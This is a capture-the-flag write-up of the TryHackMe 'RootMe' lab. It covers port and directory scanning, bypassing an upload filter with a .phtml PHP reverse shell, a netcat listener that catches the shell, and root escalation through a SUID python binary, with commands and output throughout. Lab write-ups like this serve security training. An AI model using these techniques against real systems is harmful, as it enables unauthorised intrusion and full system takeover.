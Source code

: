 ```yaml
---
title: "TryHackMe - RootMe"
author: Nasrallah
description: ""
date: 2022-01-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, web, gobuster, suid, privesc, python, reverse-shell, filter]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png
  width: 268
  height: 268
  alt: rootme
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [RootMe](https://tryhackme.com/room/rrootme), a medium machine from TryHackMe. Let's start.

# **Description**
A ctf for beginners, can you root me?

# **Enumeration**
## nmap
Let's start our nmap scan:
`sudo nmap -sC -sV -T4 {target_IP} -oN nmap.scan`

-sV : find the version of all the service running on the target

-sC : run all the default scripts

-oN : save the output in a file called nmap


```terminal
$ sudo nmap -sC -sV -T4 10.10.125.128 -oN nmap.scan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 03:17 EST
Nmap scan report for 10.10.125.128
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds

```

We have to open ports:
- 22(SSH)
- 80(http)

## Gobuster
Since we have a web server, let's do a directory scan using Gobuster:
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u {target_IP}`

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt -u http://10.10.125.128 | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.125.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/01/03 03:35:19 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.125.128/css/]
/index.php            (Status: 200) [Size: 616]                                 
/index.php            (Status: 200) [Size: 616]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.10.125.128/js/]  
/panel                (Status: 301) [Size: 314] [--> http://10.10.125.128/panel/]
/server-status        (Status: 403) [Size: 278]                                   
/uploads              (Status: 301) [Size: 316] [--> http://10.10.125.128/uploads/]

===============================================================
2022/01/03 03:37:50 Finished
===============================================================
```
- dir : for directory scan
- u : URL
- w : Wordlist
- x : Search for extensions(php,txt,html..)

We found 2 directories that stand out: **/panel** and **/uploads**. Let's see what's on each one.

![panel](/assets/img/tryhackme/rootme/panel.png)

We have an upload page here, and everything we upload goes to the **/uploads** directory. with that, let's try to upload a php reverse shell. I will be using [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
![error](/assets/img/tryhackme/rootme/error.png)
> you have to change the ip address in the script to your attacking machine's ip address: run the command `ip a show tun0` or `ifconfig` to get your ip address

![change-this](/assets/img/tryhackme/rootme/change.png)

Oh! It seems that we can't upload a `.php` file, let's try changing that extension to another one. Some of the extensions that we can use are:`.phar - .pht - phps - phtml - php3 - .php4 - .php5 - .php7`

After some try and error, we found that `.phtml` extension works.

# **Foothold**
Let's visit **/uploads** page, we should see our reverse shell there.
![shell](/assets/img/tryhackme/rootme/shell.png)
Let's now run a listener on our machine using this command `nc -nlvp 1234`.
> the port should be the same one in the reverse shell script!!

After that, let's execute the script by clicking on the file or by visiting it on (http://{target_IP}/uploads/shell.phtml)

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.125.128] 39406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:33:55 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ export TERM=xterm
export TERM=xterm
www-data@rootme:/$ ^Z       #typed ctrl+z
zsh: suspended  nc -lnvp 1234

┌──(kali㉿kali)-[]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234         #typed Enter

www-data@rootme:/$
```
We got our shell, i executed some command there to get a fully functional shell. The commands are:
```terminal
[target machine] python3 -c 'import pty;pty.spawn("/bin/bash")'

[target machine] export TERM=xterm

[target machine] ctrl+z

[attacker machine] stty raw -echo;fg
```
# **Privilege Escalation**
Let's now do some enumeration and see if we can find some privilege escalation vectors.
`sudo -l` and `id` are always the go to commands once you get access to a machine.
```terminal
www-data@rootme:/$ sudo -l
[sudo] password for www-data:
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$
```
That gave us nothing, let's search for some SUID binaries:
```terminal
www-data@rootme:/$ find / -type f -perm -04000 2>/dev/null                                                                                           [10/238]
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                  
/usr/lib/snapd/snap-confine                                                                                                                                  
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                                                                                                                   
/usr/lib/eject/dmcrypt-get-device                                                                                                                            
/usr/lib/openssh/ssh-keysign                                                                                                                                 
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                                   
/usr/bin/traceroute6.iputils                                                                                                                                 
/usr/bin/newuidmap                                                                                                                                           
/usr/bin/newgidmap                                                                                                                                           
/usr/bin/chsh                                                                                                                                                
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
.
.
.
```
That gave us a lot of binaries, but the one that looks interesting for us is **/usr/bin/python**. After looking for python in [GTFOBins](https://gtfobins.github.io), we find that we can execute this command `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` to get a root shell, let's do it:
```terminal
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# ls /root
root.txt
# ls /var/www
html  user.txt
#
```
Great, and just like that, we got root, I hope you guys enjoyed it.

See you in the next hack!
